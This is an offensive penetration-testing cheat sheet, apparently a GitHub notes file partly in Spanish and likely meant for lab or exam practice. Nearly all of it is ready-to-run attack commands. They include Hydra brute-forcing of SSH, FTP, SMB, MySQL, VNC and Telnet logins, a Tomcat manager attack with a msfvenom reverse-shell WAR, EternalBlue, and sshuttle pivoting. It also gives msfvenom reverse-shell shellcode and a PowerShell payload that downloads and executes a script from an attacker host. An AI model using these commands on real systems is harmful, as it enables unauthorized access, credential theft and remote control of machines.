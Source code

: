 ### SSH
hydra -L usernames.txt -P passwords.txt 192.168.2.66 ssh -V

### FTP
hydra -L usernames.txt -P passwords.txt 192.168.2.62 ftp -V -f

### SMB
hydra -L usernames.txt -P passwords.txt 192.168.2.66 smb -V -f

### MySQL
hydra -L usernames.txt -P passwords.txt 192.168.2.66 mysql -V -f
### VNC
hydra -P passwords.txt 192.168.2.62 vnc -V
Telnet
hydra -L usernames.txt -P passwords.txt 192.168.2.62 telnet -V

##APACHE 
#7.0 tomcat
/manager/html  > login
msfconsole |nohabilitado| use scanner/http/tomcat_mgr_login 
buscar manera de upload un archivo - msfvenom -p java/meterpreter/reverse_tcp lhost=x lport=x -f war > /path/archivo.war

##Windows General
#ms17 010
Eternal blue



## PIVOTING
usando sshuttle
atacante ------------>maquina1 misma red atacante --------------------->red interna maquina1 distinta red atacante
192.168.0.10             192.168.0.1                                     
                         10.10.2.1                                            10.10.2.3

atacante$sshuttle -r user@192.168.0.1 10.10.2.0/24
[local sudo] Password: password de maquina1(sudo asiq usuario con privilegios)


Shellcodes
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.41 LPORT=443 -f c -b '\x00\x0a\x0d'
Powershell
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.11.0.41/nishang.ps1')\"" -f python -b '\x00\x0a\x0d'
Tambien es posible agregar al final
EXITFUNC=thread -e x86/shikata_ga_nai


Enumeracion de usuarios en varios servicios contra WINDOWS
enum4linux -a <ip>

